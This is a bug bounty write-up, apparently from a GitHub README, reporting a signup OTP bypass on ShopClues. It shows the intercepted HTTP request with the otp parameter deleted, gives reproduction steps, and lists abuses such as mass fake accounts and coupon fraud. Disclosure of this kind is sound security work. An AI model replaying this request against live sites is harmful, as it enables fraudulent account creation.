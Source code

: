 # 📱 OTP Bypass – ShopClues (High)

**👋 Hello Hackers!!!**

Here’s another interesting bug bounty finding from my hunts — a **signup OTP bypass** I discovered in ShopClues. This one was fun because OTPs are supposed to be a strong verification step… but I found a way to completely **skip OTP verification** and still create an account.  

![WhatsApp Image 2025-09-05 at 3 46 19 PM](https://github.com/user-attachments/assets/33a2c474-bf0d-4846-b59a-5d3fe2bf9445)

---

# 🐞 **The Vulnerability**  
During the ShopClues signup flow, after entering email and phone number, the system sends an OTP to verify. That’s standard.  

But while playing with Burp Suite, I noticed something odd. The OTP verification request looked like this:  

```http
POST /user/signup/verifyotp HTTP/2
Host: login.shopclues.com
Content-Type: application/x-www-form-urlencoded

otp=1234&user_login=9xxxxxxxxx&csrf_test_name=1ab2c34d5exyz123451ab2c3
```

Out of curiosity, I removed the entire **`otp=1234` parameter** and forwarded the request:  

```http
POST /user/signup/verifyotp HTTP/2
Host: login.shopclues.com
Content-Type: application/x-www-form-urlencoded

user_login=9xxxxxxxxx&csrf_test_name=1ab2c34d5exyz123451ab2c3
```

👉 And boom… the account got created successfully **without OTP verification**.  

---

## ⚠️ **What It Could Do**  

**Attackers could:**

- Mass-create fake accounts without valid phone numbers.  
- Abuse referral programs, coupons, or promotions.  
- Flood the system with bots/spam users.  

## Impact: **High (P2)** 🔥



## 🔬 **Steps to Reproduce (PoC)**  

**1. Register with a valid phone number + email on ShopClues.**  

**2. Intercept the OTP verification request in Burp Suite.**  

![WhatsApp Image 2025-09-05 at 3 23 52 PM (1)](https://github.com/user-attachments/assets/e7981a8d-6f67-4955-a7ed-88d9fa4d26d9)
 
**3. Delete the `otp=1234&` parameter from the request body.**  

![WhatsApp Image 2025-09-05 at 3 23 52 PM](https://github.com/user-attachments/assets/7f510c76-4673-4a12-a393-45e7e7d97452)

**4. Forward the request.**  

**5. Observe that the account is created even though no OTP was provided.**  

![WhatsApp Image 2025-09-05 at 3 23 53 PM](https://github.com/user-attachments/assets/6686245c-2389-4177-9774-24a48277bab3)


---

## 🛠️ **Recommended Fix**
- Enforce OTP parameter validation strictly on the backend.  
- Reject any request missing/invalid OTP.  
- Add rate limiting to prevent brute forcing OTPs.  
- Ensure OTP validation is tied to the specific phone/email session.  

---

## 🧠 **What I Learned**
- Sometimes, the simplest tests (like removing a parameter) can uncover impactful bugs.  
- Never assume security controls are enforced server-side.  
- Writing a clear PoC with Burp helps a lot when reporting responsibly.  

---

**Signing off ✌️**

**[ROHAN S](https://www.linkedin.com/in/rohanscr7123/)**  

(**Aspiring Security Engineer**)  
